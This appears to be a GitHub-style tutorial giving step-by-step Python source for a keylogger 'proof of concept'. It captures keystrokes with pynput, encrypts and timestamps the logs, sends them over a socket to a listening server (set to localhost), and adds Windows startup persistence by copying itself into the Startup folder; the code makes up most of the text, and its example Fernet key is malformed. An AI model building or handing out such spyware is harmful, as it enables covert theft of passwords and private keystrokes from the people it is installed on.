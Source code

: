 



### 🔐 **3. Keylogger with Encrypted Data Exfiltration (PoC)**

---

### 📌 **Objective**

Create a Python-based keylogger that:

* Captures keystrokes
* Encrypts logs using `cryptography.fernet`
* Stores them with a timestamp
* Simulates data exfiltration to a local server
* Adds startup persistence and a kill switch

---

### 🛠️ **Tools & Libraries**

* `pynput`: For capturing keystrokes
* `cryptography`: For data encryption
* `base64`: For encoding/decoding
* `os`, `datetime`, `threading`, `socket`, `sys`: Built-in modules

---

### 🧭 **Step-by-Step Guide**

---

#### ✅ a. **Capture Keystrokes using pynput**

```python
from pynput import keyboard

keystrokes = []

def on_press(key):
    try:
        keystrokes.append(f"{key.char}")
    except AttributeError:
        keystrokes.append(f"[{key}]")

listener = keyboard.Listener(on_press=on_press)
listener.start()
```

---

#### ✅ b. **Encrypt Data using `cryptography.fernet`**

```python
from cryptography.fernet import Fernet

# Generate key (do this once and store securely)
# key = Fernet.generate_key()
key = b'my-static-key12345678901234567890=='  # example (use your generated one)
cipher = Fernet(key)

def encrypt_log(log):
    return cipher.encrypt(log.encode())
```

---

#### ✅ c. **Store Logs Locally with Timestamps**

```python
from datetime import datetime

def save_encrypted_log(data):
    timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
    encrypted_data = encrypt_log("".join(data))
    with open(f"logs/{timestamp}.log", "wb") as f:
        f.write(encrypted_data)
```

---

#### ✅ d. **Simulate Sending to a Remote Server (localhost)**

**Client:**

```python
import socket

def send_to_server(data):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('localhost', 9999))
    s.send(encrypt_log(data))
    s.close()
```

**Server (run separately):**

```python
import socket
from cryptography.fernet import Fernet

key = b'my-static-key12345678901234567890=='  # same as client
cipher = Fernet(key)

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('localhost', 9999))
server.listen(5)
print("[*] Listening on port 9999...")

while True:
    client, addr = server.accept()
    data = client.recv(4096)
    print(f"[+] Encrypted: {data}")
    print(f"[+] Decrypted: {cipher.decrypt(data).decode()}")
    client.close()
```

---

#### ✅ e. **Add Startup Persistence & Kill Switch (Optional & OS-Specific)**

**Startup Persistence (Windows):**

```python
import os
import shutil

def add_to_startup():
    file_path = os.path.realpath(__file__)
    target = os.path.expandvars(r'%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylogger.exe')
    shutil.copy(file_path, target)
```

**Kill Switch Example:**

```python
def check_kill_switch():
    return os.path.exists("STOP_LOGGING.txt")
```

---

### 📁 Folder Structure

```
keylogger/
│
├── keylogger.py
├── logs/
└── STOP_LOGGING.txt  # Optional kill switch
```

---

### ✅ **Deliverables**

* `keylogger.py`: Full Python script with all modules
* `logs/`: Folder containing encrypted logs
* `key`: Static Fernet key (for test use only)
* `README.md`: Ethical use disclaimer
